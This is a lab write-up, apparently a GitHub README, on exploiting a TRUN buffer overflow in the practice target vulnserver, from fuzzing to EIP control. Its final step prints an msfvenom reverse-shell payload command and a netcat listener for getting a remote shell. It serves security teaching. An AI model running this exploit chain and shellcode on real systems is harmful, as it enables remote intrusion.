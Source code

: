 # Buffer-Overflows-Made-Easy

## Table of Contents
1. [Lab Overview & Objectives](#lab-overview--objectives)  
2. [Environment & Prerequisites](#environment--prerequisites)  
3. [Step-by-Step Procedure](#step-by-step-procedure)  
   - [Step 0 — Network & VM Prep](#step-0---network--vm-prep)  
   - [Step 1 — Start vulnserver on Win10](#step-1---start-vulnserver-on-win10)  
   - [Step 2 — TRUN Overflow (Parts 1 & 2)](#step-2---trun-overflow-parts-1--2)  
   - [Step 3 — Fuzzing (Part 3)](#step-3---fuzzing-part-3)  
   - [Step 4 — Finding the Offset (Part 4)](#step-4---finding-the-offset-part-4)  
   - [Step 5 — Overwriting EIP (Part 5)](#step-5---overwriting-eip-part-5)  
   - [Step 6 — Finding Bad Characters (Part 6)](#step-6---finding-bad-characters-part-6)  
   - [Step 7 — Finding the Right Module (Part 7)](#step-7---finding-the-right-module-part-7)  
   - [Step 8 — Generating Shellcode & Gaining Shell (Part 8)](#step-8---generating-shellcode--gaining-shell-part-8)  

---

# Lab Overview & Objectives
This lab follows **The Cyber Mentor** series (Parts 1–8) to exploit `vulnserver` on a Windows 10 VM from a Kali attacker VM.

**Objectives**
- Trigger a TRUN buffer overflow and observe EIP/EBP overwrite.  
- Fuzz the service to find the crash location.  
- Determine the EIP offset and confirm control.  
- Identify bad characters.  
- Find a usable module/gadget.  
- Generate shellcode and obtain a reverse shell.

---

# Environment & Prerequisites
**VMs**
- Attacker: `Kali` VM (ensure VM name is visible in screenshots)  
- Target: `Win10` VM (password: `Passw0rd!`, ensure VM name is visible)

**Tools**
- VMware Workstation (or equivalent)  
- `vulnserver` (place on Win10)  
- Immunity Debugger + `mona.py` plugin (on Win10)  
- `msfvenom` / Metasploit (optional)  
- `nc` (netcat) on Kali  
- Python 2 on Kali (or run `python2` explicitly)

**Network**
- Both VMs must be on the same network (NAT/Host-only/Bridged).  
- Use your own IP addresses — do **not** reuse IPs from tutorial videos.

---

# Step-by-Step Procedure

## Step 1 — Network & VM Prep
- Start both VMs and ensure they share the same network.  
- Record IPs:
  - Kali IP: `TODO_kali_ip`  
  - Win10 IP: `TODO_win10_ip`

![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step1.png)

## Step 1 — Start vulnserver on Win10 & TRUN Overflow (Parts 1 & 2)
- Run `vulnserver.exe` as Administrator on the Win10 VM.  
- Confirm service is listening
- From Kali, send a long string of `A`s to `TRUN` 
- Observe in Immunity that EBP and EIP are overwritten with `0x41414141`.   


![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step2.png)


## Step 3 — Fuzzing (Part 3)
- Run a fuzzing script that increases payload size until a crash occurs.  
- Save fuzz log (e.g., `fuzz_log.txt`) and screenshot Kali showing crash length.
- 
![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step3.png)
![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step3p2.png)

## Step 4 — Finding the Offset (Part 4)
- Generate a cyclic pattern larger than crash size, send it, and note value in EIP.  
- Use pattern tools (mona / pattern_offset) to compute offset.  
![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step4.png)  

## Step 5 — Overwriting EIP (Part 5)
- Build payload: `<padding = offset>` + `BBBB` (`0x42424242`) + `<filler>` and send.  
- Verify EIP == `0x42424242`.

![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step5.png)

## Step 6 — Finding Bad Characters (Part 6)
- Append badchars sequence (all bytes except `\x00`) after return address.  
- In Immunity hex dump, compare the in-memory sequence to expected.  
- Identify any bytes that are altered (bad characters).

![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step6.png) 

## Step 7 — Finding the Right Module (Part 7)
- Use `mona` to find modules without ASLR/DEP and search for `jmp esp`/useful gadgets.  
- Choose module and address; set breakpoint and test.

![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step7.png) 

## Step 8 — Generating Shellcode & Gaining Shell (Part 8)
- Generate shellcode excluding bad chars, example:
  msfvenom -p windows/shell_reverse_tcp LHOST=TODO_kali_ip LPORT=4444 -f c -b "\x00\x0a\x0d"
- Final payload: `<padding>` + `<JMP/RET address>` + `<NOP sled>` + `<shellcode>`  
- On Kali: `nc -lvnp 4444`  
- Trigger exploit and run `whoami`.

![image alt](https://github.com/Ricjan5012/Buffer-Overflows-Made-Easy/blob/6b83e2cb582fd0917bdb3d867fe45d4ca43d96a9/step8.png)

# Reproduction Summary
1. Start Win10 & Kali VMs (same network).  
2. Run vulnserver as Admin on Win10.  
3. Fuzz `TRUN` to find crash.  
4. Use cyclic pattern to find offset where EIP is overwritten.  
5. Overwrite EIP with `0x42424242` to confirm control.  
6. Identify bad chars and choose module/gadget.  
7. Generate shellcode excluding bad chars.  
8. Start `nc -lvnp 4444` on Kali and trigger final exploit to get shell.

---

# Troubleshooting & Tips
- If Python 3 errors occur: try changing the first line of the script from “#!/usr/bin/python” to “#!/usr/bin/python2” or you can invoke your script using “python2” at the command line.
- If Immunity behaves oddly: reboot VM or reinstall.  
- If traffic blocked: disable AV/firewall temporarily.  
- Use snapshots after each successful step.

